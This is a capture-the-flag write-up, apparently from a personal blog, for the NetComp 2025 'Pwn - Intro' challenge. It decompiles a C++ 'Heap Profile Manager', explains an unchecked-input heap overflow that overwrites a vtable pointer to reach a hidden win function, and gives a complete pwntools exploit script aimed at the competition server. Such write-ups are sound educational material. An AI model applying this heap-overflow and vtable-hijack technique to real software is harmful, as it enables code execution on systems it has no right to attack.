





import PostFileDownload from "../../../components/PostFileDownload.astro";

## Pwn - Intro

**Warning: This writeup was originally in INDONESIAN for the competition's mandatory writeup, so I used ChatGPT to translate to ENGLISH!!!**

<PostFileDownload name="2025-netcomp-pwnintro.zip" />

A given binary named **chall** was analyzed and found to be a “Heap Profile Manager.” After decompiling it using **Ghidra**, its working mechanism was identified as follows:

```c
void vulnerableFunction(void)

{
  char *pcVar1;
  UserProfile *this;
  AdminProfile *this_00;
  ostream *poVar2;

  pcVar1 = (char *)operator.new[](0x40);
  this = (UserProfile *)operator.new(8);
  *(undefined8 *)this = 0;
  UserProfile::UserProfile(this);
  this_00 = (AdminProfile *)operator.new(8);
  *(undefined8 *)this_00 = 0;
  AdminProfile::AdminProfile(this_00);
  std::operator<<((ostream *)std::cout,"Enter your profile descri ption: ");
  std::operator>>((istream *)std::cin,pcVar1);
  poVar2 = std::operator<<((ostream *)std::cout,"Your profile says: ");
  poVar2 = std::operator<<(poVar2,pcVar1);
  std::operator<<(poVar2,"\n");
  (*(code *)**(undefined8 **)this)(this,pcVar1);
  if (pcVar1 != (char *)0x0) {
	operator.delete[](pcVar1);
  }
  if (this != (UserProfile *)0x0) {
	operator.delete(this,8);
  }
  if (this_00 != (AdminProfile *)0x0) {
	operator.delete(this_00,8);
  }
  return;
}
```

The program starts by allocating **0x40 (or 64 in decimal) bytes** for an input buffer, which is then passed to the `displayProfile` function to display what we input. For example:



However, a significant vulnerability is present in the input handling, as it does not validate the input length, allowing an **overflow**. The target overflow is the following function call, which also lacks validation, so it can be replaced with any pointer if done correctly:

```c
(*(code *)**(undefined8 **)this)(this,pcVar1);
```

After that, I tried analyzing the heap content by sending a **64-character cyclic payload** using `pwntools`:

```python
OFFSET=64

payload = flat(
	cyclic(OFFSET,n=8)
)

io.sendline(payload)
```

Since the buffer size is **0x40**, adding heap metadata should result in a total size close to that:



Thus, I was able to further analyze the heap chunk addresses:



It was concluded that **three allocations** occur in sequence:

1. **Buffer allocation (0x40)**
2. **User allocation (8 bytes)**
3. **Admin allocation (8 bytes)**

The next steps are:

1. **Overflow without corrupting the heap structure**
2. **Replace the vtable of `UserProfile` with the vtable of the `win` function found in the `AdminProfile` class**



The **vtable address** used can be found in **Ghidra**, resulting in the following **payload structure**:

1. **Offset characters**
2. **Heap overflow**
3. **Address of the vtable for `win`**

Thus, the final payload is as follows:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'chall')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '103.127.138.252'
port = int(args.PORT or 17010)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *vulnerableFunction+226
b *vulnerableFunction+242
b *vulnerableFunction+264
b *vulnerableFunction+286
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

OFFSET=64

log.info(io.clean())

payload = flat(
    cyclic(OFFSET,n=8),
    0x0 * 15,
    0x21,
    0x403db0
)

io.sendline(payload)

io.interactive()
```


